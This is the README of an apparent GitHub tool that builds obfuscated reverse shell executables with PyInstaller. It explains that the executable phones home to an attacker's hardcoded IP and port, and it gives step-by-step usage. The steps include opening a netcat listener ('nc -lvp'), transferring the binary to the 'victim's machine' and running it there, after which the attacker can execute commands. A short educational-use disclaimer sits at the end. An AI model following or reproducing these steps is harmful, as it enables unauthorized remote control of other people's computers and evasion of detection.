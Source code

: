 ## Overview ##

This tool creates an executable file that establishes a reverse shell connection to a specified IP address and port. The builder.py script takes three arguments from the command line: the IP address, port number, and the filename for the output executable. It then obfuscate the modified file using <b>@acheong08</b> tool called py-obfuscate [compress.py] before creating and executable file that fits the currentused system. The generated executable file is built using PyInstaller.

The generated executable file connects to a hardcoded IP address and port number and awaits commands from the attacker. The RevShell.py file is the code that will be executed on the victim's machine once the attacker has successfully established a connection. The code within RevShell.py is an obfuscated reverse shell that allows the attacker to execute commands on the victim's machine.

## Usage ##

<b>#Important!#</b>
* Use the builder script at the same system as the target machine , build on linux for linux targets, build on windows for windows targets

* Clone the repository or download the code.
* Navigate to the directory that contains the builder.py script.

* Run the following command [filename must be different then RevShell.py]: <b>python builder.py IP-address port-number output-filename</b> 
Once the script has finished executing, the generated executable file will be located at dist in the same directory as the builder.py script.

* On the attacker's machine, establish a netcat listener on the specified port: nc -lvp <port number>.
* Transfer the generated executable file to the victim's machine.
* Run the executable file on the victim's machine.

The victim's machine will connect to the attacker's machine, and the attacker will be able to execute commands on the victim's machine through the netcat listener.
Note that the IP address and port number used in the builder.py script and the RevShell.py file are hardcoded and should be modified to match the IP address and port number that the attacker will use.

## Tools & Dependencies ##

# Tools #

Python 3
PyInstaller 

# Dependencies #

socket
subprocess
os
base64

## To install PyInstaller, run the following command ##

bash
Copy code
pip install pyinstaller

# The dependencies listed above are standard Python libraries and should be included with any Python distribution #

Before running the builder.py script, make sure that all required tools and dependencies are installed and accessible from the command line.
<b>And Again use the builder script at the same system as the target machine , build on linux for linux targets, build on windows for windows targets.</b>

## Disclaimer ##
This tool is provided for educational purposes only. Misuse of this tool to gain unauthorized access to computer systems is strictly prohibited. The author assumes no liability for any damages caused by the use or misuse of this tool.

